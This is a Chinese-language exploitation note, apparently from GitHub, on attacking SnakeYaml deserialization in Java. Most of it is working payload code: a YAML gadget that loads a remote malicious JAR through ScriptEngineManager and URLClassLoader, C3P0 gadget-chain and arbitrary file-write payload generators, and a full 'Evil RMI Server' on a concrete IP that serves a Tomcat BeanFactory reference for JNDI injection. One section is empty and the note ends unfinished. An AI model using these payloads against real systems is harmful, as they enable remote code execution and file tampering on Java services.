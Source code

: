 # SnakeYaml 利用
## 原理

```java
String payload =
    "!!javax.script.ScriptEngineManager [\n" +
    "  !!java.net.URLClassLoader [[\n" +
    "    !!java.net.URL [\"http:/ip/yaml-payload.jar\"]\n" +
    "  ]]\n" +
    "]";
Yaml yaml = new Yaml();
yaml.load(payload);
```

触发的 sink 为构造方法 `<init>` 和 `setter`。

在上面的例子中，可以通过 `ScriptEngineManager` 的 `<init>` 进入 SPI 流程触发 `next()` 远程加载恶意类触发。

```java
/**
    * Dependencies: null
    *
    * ScriptEngineManager <init>
    *  -> next()
    *    -> SPI
    *      -> [Self Class] implements ScriptEngineFactory <init>
    */
```

如果是 call `setter` 需要使用以下方式构造: 

```yaml
!!test.snakeyaml.User { name: SilentE }
# or
!!test.snakeyaml.User
  name: SilentE
```

并且要满足字段可见性不是 `public` (若是 `public` 那么 snakeyaml 会走反射赋值而不是 `setter`)。

如果是 call `constructor` 需要使用以下方式构造: 

```yaml
!!test.snakeyaml.User [ !!str SilentE ]
# or
!!test.snakeyaml.User 
  - SilentE
```

需要保证该类有相应的 constructor 方法。

## 一些链子

其实可以看出 `setter` 和构造方法来做为入口，可以考虑 FastJson 相关的利用。

### C3P0

```java
/**
    * Dependencies: com.mchange:c3p0:0.9.5.2
    *
    * com.mchange.v2.c3p0.impl.WrapperConnectionPoolDataSourceBase <setter>
    *  -> VetoableChangeSupport#fireVetoableChange
    *      -> WrapperConnectionPoolDataSource$1#vetoableChange
    *        -> C3P0ImplUtils#parseUserOverridesAsString
    *          -> [static] SerializableUtils#deserializeFromByteArray
    *            -> readObject
    */
public String C3P0PoolDataSource(String hexStr) {
    return String.format(
            "!!com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\n" +
            "  userOverridesAsString: 'HexAsciiSerializedMap:%s;'"
            , hexStr);
}

/**
    * Dependencies: com.mchange:c3p0:0.9.5.2
    *
    */
public String C3P0JNDIRefForwardingDataSource(String url) {
    return String.format(
            "!!com.mchange.v2.c3p0.JndiRefForwardingDataSource\n" +
            "  jndiName: \"%s\"\n" +
            "  loginTimeout: 0", url);
}
```

### WriteFile

```java
/**
    * Dependencies: null
    *
    * MarshalOutputStream <init>
    *   -> ObjectOutputStream <init>
    *     -> ObjectOutputStream#setBlockDataMode
    *       -> ObjectOutputStream#drain
    *         -> write
    */
public String WriteFile(String path, String b64Content) {
    return String.format("!!sun.rmi.server.MarshalOutputStream [\n" +
            "  !!java.util.zip.InflaterOutputStream [\n" +
            "    !!java.io.FileOutputStream [\n" +
            "      !!java.io.File [\"%s\"],\n" +
            "      false," +
            "    ],\n" +
            "    !!java.util.zip.Inflater { input: !!binary %s },\n" +
            "    114514\n" +
            "  ]\n" +
            "]"
            , path, b64Content);
}
```

### ReadFile

### JNDI

太多了，以后慢慢补，先来个高版本 JNDI 本地工厂类打 snakeyaml：

```java
public class Service {  
    public static void main(String[] args)throws Exception {  
        System.setProperty("java.rmi.server.hostname","8.142.104.78");  
        System.out.println("[*]Evil RMI Server is Listening on port: 6666");  
        Registry registry = LocateRegistry.createRegistry( 6666);  
        ResourceRef ref = tomcat_snakeyaml();  
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);  
        registry.bind("calc", referenceWrapper);  
    }  
    public static ResourceRef tomcat_snakeyaml(){  
        ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "",  
                true, "org.apache.naming.factory.BeanFactory", null);  
        String yaml = "!!javax.script.ScriptEngineManager [\n" +  
                "  !!java.net.URLClassLoader [[\n" +  
                "    !!java.net.URL [\"https://ip/yaml-payload.jar\"]\n" +  
                "  ]]\n" +  
                "]";
        ref.add(new StringRefAddr("forceString", "a=load"));  
        ref.add(new StringRefAddr("a", yaml));  
        return ref;  
    }  
}
```

To be continue...

## 参考

- [Java SPI 机制](https://pdai.tech/md/java/advanced/java-advanced-spi.html)
- [Snake Yaml](https://tttang.com/archive/1815)
- [FastJson 相关](https://github.com/safe6Sec/Fastjson)
- [高版本 JDK 下 JNDI 漏洞的利用](https://tttang.com/archive/1405/)
